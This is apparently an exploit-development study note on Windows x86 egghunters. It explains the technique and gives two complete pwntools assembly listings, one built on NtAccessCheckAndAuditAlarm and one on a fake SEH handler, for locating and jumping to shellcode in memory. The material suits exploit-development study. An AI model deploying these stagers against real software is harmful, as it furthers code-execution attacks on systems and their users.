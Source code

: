 ```yaml
---
title: Egghunters
tags:
  - shellcode
  - egghunter
  - egghunters
  - windows
  - x86
  - assembly
  - seh
---
```


An **egghunter** is a short program in assembly that we can deliver with our
shellcode to reliably gain code execution if we don't know where our shellcode
will land in process memory upon delivery. Using a particular sentinel value as
a preamble to our shellcode, we can search through each segment of memory to
look for the beginning of our shellcode.

To avoid crashing the program when we encounter access violations for segments
of memory that aren't `R-X`, we can use the `NtAccessCheckAndAuditAlarm` system
call to check if we can access a particular segment. If we can't we ignore and
continue - otherwise we search for our shellcode. Here's some example **Python**
code demonstrating this technique:

```python
from pwn import *

egghunter = (
    "start:"
    # We use the edx register as a memory page counter
    "loop_inc_page:"
    # Go to the last address in the memory page
    "    or dx, 0x0fff;"
    "loop_inc_one:"
    # Increase the memory counter by one
    "    inc edx;"
    "loop_check:"
    # Save the edx register which holds our memory
    # address on the stack
    "    push edx;"
    # Push the negative value of the system
    # call number
    "    mov eax, 0xfffffe3a;"
    # Initialize the call to NtAccessCheckAndAuditAlarm
    "    neg eax;"
    # Perform the system call
    "    int 0x2e;"
    # Check for access violation, 0xc0000005
    # (ACCESS_VIOLATION)
    "    cmp al,05;"
    # Restore the edx register to check
    # later for our egg
    "    pop edx;"
    "loop_check_valid:"
    # If access violation encountered, go to n
    # ext page
    "    je loop_inc_page;"
    "is_egg:"
    # Load egg (w00t in this example) into
    # the eax register
    "    mov eax, 0x74303077;"
    # Initializes pointer with current checked
    # address
    "    mov edi, edx;"
    # Compare eax with doubleword at edi and
    # set status flags
    "    scasd;"
    # No match, we will increase our memory
    # counter by one
    "    jnz loop_inc_one;"
    # First part of the egg detected, check for
    # the second part
    "    scasd;"
    # No match, we found just a location
    # with half an egg
    "    jnz loop_inc_one;"
    "matched:"
    # The edi register points to the first
    # byte of our buffer, we can jump to it
    "    jmp edi;"
)

egghunter = flat([b"\x90" * 8, asm(self.egghunter, arch="i386")])
```

## Using SEH

We can create a fake **Structured Exception Handler (SEH)** structure for our
egghunter that can capture our access violations and recover without releasing
control of the program. The Python code provided below demonstrates this:

```python
from pwn import *

egghunter = (
	"start:"
	# jump to a negative call to dynamically
	# obtain egghunter position
	"    jmp get_seh_address;"
	"build_exception_record:"
	# pop the address of the exception_handler
	# into ecx
	"    pop ecx;"
	# mov signature into eax
	"    mov eax, 0x74303077;"
	# push Handler of the
	# _EXCEPTION_REGISTRATION_RECORD structure
	"    push ecx;"
	# push Next of the
	# _EXCEPTION_REGISTRATION_RECORD structure
	"    push 0xffffffff;"
	# null out ebx
	"    xor ebx, ebx;"
	# overwrite ExceptionList in the TEB with a pointer
	# to our new _EXCEPTION_REGISTRATION_RECORD structure
	"    mov dword ptr fs:[ebx], esp;"
	# subtract 0x04 from the pointer
	# to exception_handler
	"    sub ecx, 0x04;"
	# add 0x04 to ebx
	"    add ebx, 0x04;"
	# overwrite the StackBase in the TEB
	"    mov dword ptr fs:[ebx], ecx;"
	"is_egg:"
	# push 0x02
	"    push 0x02;"
	# pop the value into ecx which will act
	# as a counter
	"    pop ecx;"
	# mov memory address into edi
	"    mov edi, ebx;"
	# check for our signature, if the page is invalid we
	# trigger an exception and jump to our exception_handler function
	"    repe scasd;"
	# if we didn't find signature, increase ebx
	# and repeat
	"    jnz loop_inc_one;"
	# we found our signature and will jump to it
	"    jmp edi;"
	"loop_inc_page:"
	# if page is invalid the exception_handler will
	# update eip to point here and we move to next page
	"    or bx, 0xfff;"
	"loop_inc_one:"
	# increase ebx by one byte
	"    inc ebx;"
	# check for signature again
	"    jmp is_egg;"
	"get_seh_address:"
	# call to a higher address to avoid null bytes & push
	# return to obtain egghunter position
	"    call build_exception_record;"
	# push 0x0c onto the stack
	"    push 0x0c;"
	# pop the value into ecx
	"    pop ecx;"
	# mov into eax the pointer to the CONTEXT
	# structure for our exception
	"    mov eax, [esp+ecx];"
	# mov 0xb8 into ecx which will act as an
	# offset to the eip
	"    mov cl, 0xb8;"
	# increase the value of eip by 0x06 in our CONTEXT
	# so it points to the "or bx, 0xfff" instruction
	# to increase the memory page
	"    add dword ptr ds:[eax+ecx], 0x06;"
	# save return value into eax
	"    pop eax;"
	# increase esp to clean the stack for our call
	"    add esp, 0x10;"
	# push return value back into the stack
	"    push eax;"
	# null out eax to simulate
	# ExceptionContinueExecution return
	"    xor eax, eax;"
	# return
	"    ret;"
)

egghunter = flat([b"\x90" * 8, asm(self.egghunter, arch="i386")])
```

## Related pages

- [[seh-overflows|SEH overflows]]
